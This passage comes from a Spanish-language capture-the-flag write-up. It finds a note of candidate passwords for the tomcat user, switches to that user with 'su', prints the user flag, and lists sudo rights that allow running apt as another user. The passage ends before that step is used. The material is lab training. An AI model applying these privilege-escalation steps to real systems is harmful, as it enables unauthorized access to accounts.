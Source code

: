 ## Escalate user tomcat

Si nos vamos al siguiente directorio.

```shell
cd /var/www/html
```

Veremos un archivo `.txt` llamado `super_secure_note_tomcat.txt` que si lo leemos pone lo siguiente.

```
tomcat:tomcat
tomcat:tomcatel
tomcat:tomcatelmejorsuper
tomcat:tomcatelmejorsupersecure
tomcat:tomcatelmejor
tomcat:tomcatelmejorsupersecurepassword
tomcat:tomcatelmejordetodos
tomcat:tomcatelpeorperomejor
tomcat:tomcasoloasimegusta
tomcat:tomcatelmejordetodosdelmundo
```

Parece ser contraseñas para el usuario `tomcat` pero sabremos que una es la verdadera.

Si probamos la que dice `tomcat:tomcatelmejor` veremos que funciona.

Por lo que haremos.

```shell
su tomcat
```

Y metemos como contraseña `tomcatelmejor` por lo que ya seremos el usuario y leeremos la flag.

> user.txt

```
b1ce018caed50700faffff22b16f5903
```

## Escalate user deamon

Si hacemos `sudo -l` veremos lo siguiente.

```
Matching Defaults entries for tomcat on 48b4171dbb9e:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User tomcat may run the following commands on 48b4171dbb9e:
    (deamon : deamon) NOPASSWD: /usr/bin/apt
```

Podemos ejecutar como el usuario `deamon` el binario de `apt` por lo que haremos lo siguiente.
